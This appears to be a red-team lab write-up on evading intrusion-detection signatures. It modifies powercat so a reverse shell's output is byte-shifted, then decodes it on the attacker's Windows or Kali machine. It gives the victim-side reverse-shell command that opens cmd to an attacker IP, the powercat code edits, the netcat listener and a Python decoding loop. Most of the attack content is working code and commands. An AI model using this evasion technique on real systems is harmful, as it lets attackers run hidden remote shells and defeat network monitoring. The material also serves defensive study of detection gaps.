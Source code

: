 # Bypassing IDS Signatures with Simple Reverse Shells

Most Intrusion Detection Systems (IDS) have signatures that can catch simple reverse shells going across the network.&#x20;

The thing that will get you flagged usually is the classic cmd prompt banner:

```
listening on [any] 443 ...
connect to [192.168.2.79] from ws01 [192.168.2.149] 56079
Microsoft Windows [Version 10.0.17763.475]
(c) 2018 Microsoft Corporation. All rights reserved.
```

This can usually be bypassed relatively easily with some simple traffic obfuscation and this quick lab demonstrates just that.

{% hint style="danger" %}
**Warning**\
This technique is not meant to be used in real life red team operations!
{% endhint %}

## Environment and Setup

* Victim's Windows system capable of running powershell scripts
* Victim's system runs Powercat - netcat's Powershell implementation
* Attacker's Windows machine with a powercat listener
* Attacker's Linux machine with a netcat listener

## Execution - Encoding Responses

Since we want to obfuscate the outgoing traffic from the victim system to the attacking system, we need to obfuscate the responses generated by the reverse shell.

Let's modify powercat to achieve this. Int this lab, I will use a simple obfuscation technique - every ascii character will be shifted to the right by 1, so `a` will become `b`, `b->c`,`  c->d  `and so on, but base64 or any other encoding mechanisms could work.

In powercat.ps1, let's find the function `ReadData_CMD` and add a new line (576 from the below graphic):

```csharp
$Data = $Data | % {[byte]$_+1}
```

![](<../../.gitbook/assets/Annotation 2019-05-18 121935 (1).png>)

With the modified powercat, let's try establishing a reverse shell and catch it on the other end and see what happens:

```csharp
# victim
powercat -c 192.168.2.79 443 -e cmd

#attacker 
powercat -l -p 443 -v
```

Below shows the incoming reverse shell, but it's of course not readable since we shifted all the characters by one. Although this is enough to bypass IDS signatures relying on the cmd prompt banner crossing the network, the shell on itself is not very useful since we cannot read the results:

![](<../../.gitbook/assets/Annotation 2019-05-18 123445.png>)

## Decoding Responses

We need to decode the responses by using the code we used earlier and make sure that we are now subtracting 1 rather than adding, so that `d` becomes `c`, `c->b`, `b->a` and so on:

```csharp
$Data = $Data | % {[byte]$_-1}
```

In powercat.ps1, find the function `WriteData_Console` and add the code just below the parameter declaration:

![](<../../.gitbook/assets/Annotation 2019-05-18 124925.png>)

If we try establishing the reverse shell now, we can see it gets decoded nicely on the attacking system running powercat listener on Windows:

![](<../../.gitbook/assets/Annotation 2019-05-18 124837.png>)

If we inspect the traffic, we confirm that the traffic is encoded:

![](<../../.gitbook/assets/Annotation 2019-05-18 130428.png>)

## Decoding Responses in Linux

If we are listening for a shell in netcat on a Linux box with no powershell (my kali was giving me a hard time trying to install powershell), we need to hack together a filthy python loop that will do the decoding for us first:

{% code title="decode.py@kali" %}
```python
#!/usr/bin/python3
import os, time

global decoded
while 1:
    decoded = ""
    encodedFile = open("myfile", "rb+")
    i = 0
    last = ""
    encodedBytes = encodedFile.read()

    for byte in encodedBytes:
        if byte > 0 and byte <= 127:
            byte -= 1
        else:
            byte = 10

        if byte != last:
            decoded += chr(byte)
            last = byte
        i += 1

    if len(decoded) > 1:
        print(decoded)
    os.system("echo > myfile")
    time.sleep(1)
```
{% endcode %}

Let's launch the netcat listener on a linux box and pipe the output to `tee` so it can be put to a file `myfile`

{% code title="attacker@kali" %}
```
nc -lvvp 443 | tee myfile
```
{% endcode %}

In another terminal, we need to launch the `decoder.py` which will read the `myfile` every second and will decode its content and wipe it:

{% code title="attacker@kali" %}
```
./decoder.py
```
{% endcode %}

![](<../../.gitbook/assets/Annotation 2019-05-18 132903.png>)

We can now send the reverse shell back from the windows machine and see how it works:

* Right - a compromised Windows system that will send a reverse shell to the attacker using powercat
* Top left - the reverse shell comes in, responses are encoded. This is where we can issue commands
* Bottom left - reverse shell responses are decoded

![](../../.gitbook/assets/revshell.gif)
